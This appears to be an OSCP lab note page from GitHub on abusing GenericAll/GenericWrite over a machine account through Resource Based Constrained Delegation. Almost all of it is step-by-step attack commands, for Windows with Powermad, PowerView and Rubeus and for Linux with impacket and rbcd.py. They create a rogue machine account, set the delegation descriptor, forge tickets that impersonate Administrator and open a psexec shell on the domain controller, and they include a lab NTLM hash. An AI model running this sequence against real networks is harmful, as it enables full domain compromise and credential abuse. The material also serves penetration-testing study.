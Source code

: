 # GENERICALL ON A MACHINE:: Resource Based Constrained Delegation
WUT IS DIS?:
TL;DR
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. 
For example we can impersonate Domain Administrator and have complete access.

## Exploit on Windows

Tools we are going to use:
PowerView.ps1
Powermad.ps1
Rubeus.exe

```bash
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

This won't work locally so first copy and paste base64 on kali linux 

![image](https://github.com/nuricheun/OSCP/assets/14031269/558fc1b8-7a19-4b01-bbfc-5da6f262a60c)

```bash
# I just copied and pasted base64 into a file named base
mousepad base
# Decoded it and save it as ticket.kirbi                                                                                                                                                              
cat base | base64 -d > ticket.kirbi
# Convert it to ccache
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache  
psexec.py -k -no-pass resourced.local/administrator@resourcedc.resourced.local -dc-ip 192.168.201.175
```

## Exploit on Linux

Tools we are going to use:
impacket-addcomputer
rbcd.py
impacket-getST
impacket-psexec

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
python3 rbcd.py -dc-ip 192.168.x.x -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x
export KRB5CCNAME=./Administrator.ccache
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.x.x
```

